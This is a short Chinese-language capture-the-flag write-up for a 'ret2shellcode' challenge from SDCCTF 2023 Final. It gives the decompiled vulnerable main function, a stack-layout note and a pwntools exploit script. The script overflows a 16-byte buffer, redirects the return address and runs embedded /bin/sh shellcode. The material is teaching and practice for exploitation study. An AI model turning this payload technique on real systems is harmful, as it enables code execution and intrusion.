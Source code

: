 #### ret2shellcode
1.  分析过程
    查看main函数：
    ```c
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
        __int64 buf[2]; // [rsp+0h] [rbp-10h] BYREF

        buf[0] = 0LL;
        buf[1] = 0LL;
        setvbuf(_bss_start, 0LL, 1, 0LL);
        printf("Write to here [%p]\n", buf);    // 直接给了buf的地址
        puts("Input anything : ");
        read(0, buf, 0x400uLL);                 // 注入点
        return 0;
    }   
    ```
    查看没有system函数，也没有后面字符串，但是NX没开，可以输入shellcode  
    查看buf的栈结构，发现buf和r之间只有0x10+0x8位，可以溢出覆盖返回地址，但是不足以塞下shellcode，于是考虑将shellcode塞在r后面，将返回地址塞在返回地址后面，返回地址的值用buf地址+增量0x10+0x8+0x8计算得出。
    ```
    -0000000000000010 buf             dq ?
    -0000000000000008 var_8           dq ?
    +0000000000000000  s              db 8 dup(?)
    +0000000000000008  r              db 8 dup(?)
    +0000000000000010 ; 将shellcod塞在这里（但是为什么能塞得下我还不清楚）
    +0000000000000010 ; end of stack variables
    ```
2. exp.py
    ```python
    from pwn import *
    io = process('./pwn')
    io.recvuntil(b"Welcome to SDCCTF 2023 Final!\n")
    buf_addr = io.recvline(keepends=False)      
    buf_addr = buf_addr[len("Write to here ["):-1].decode("ascii")  # 把接收到的byte格式地址转换成string
    buf_addr = int(buf_addr, 16)                                    # 转换16进制string为数字
    ret_addr = buf_addr + (0x10+0x8+0x8)                            # 返回地址 = buf地址+增量，包含r长度
    shellcode = b'\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'
    payload = b"a"*(0x10+0x8) + p64(ret_addr) + shellcode           # 填充位 + 返回地址 + shellcode，填充位不包含r长度
    io.recvuntil(b"Input anything : \n")
    io.sendline(payload)
    io.interactive() 
    ```
